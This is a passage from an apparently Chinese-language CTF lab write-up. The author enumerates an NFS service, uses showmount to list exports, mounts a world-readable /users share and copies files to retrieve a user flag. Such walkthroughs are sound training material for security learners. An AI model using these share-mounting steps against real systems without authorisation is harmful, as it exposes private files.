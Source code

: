 ```
2049/tcp  open  mountd        1-3 (RPC #100005)
```

**NFS 是一个客户机/服务器系统，它允许用户通过网络访问文件，并将它们视为驻留在本地文件目录中。我可以使用 **showmount** 工具检查是否有任何共享可供安装。**

```
$sudo showmount -e 10.10.7.159
[sudo] password for kali: 
Export list for 10.10.7.159:
**/users (everyone)**
```

**“***/用户*** ”目录是可挂载的。我在 tmp 文件夹下创建了一个新目录，并运行以下命令在这个新创建的目录上挂载主文件夹。**

```
mkdir /tmp/infosec
mount -t nfs 10.10.63.208:/users /tmp/infosec
```

**接下来，我检查了目录是否成功挂载。**

```
$ df -k10.10.7.159:/users  20407296  16603136   3804160  82% /tmp/infosec
```

**我导航到“ ***/tmp/infosec*** ”目录，列出内容。我可以看到有两个文件。**

```
$ sudo ls -la /tmp/infosec

-rwx------  1 nobody 4294967294  9861 Feb 25  2021 **employee_status.xlsx**
-rwx------  1 nobody 4294967294    80 Feb 25  2021 **sbradley.txt**
```

**我将这两个文件复制到我当前的工作目录中，并为用户 Steven 检索第一个标志，它存储在“ ***sbradley.txt*** ”中。**

**![](img/2c5a81ccb6304a56531576e83c32d294.png)**

**史蒂文的旗子。**

**接下来，我打开了“***employee _ status . xlsx***”文件。**

**![](img/012509891d2ecf25ce9cef64976838cf.png)**
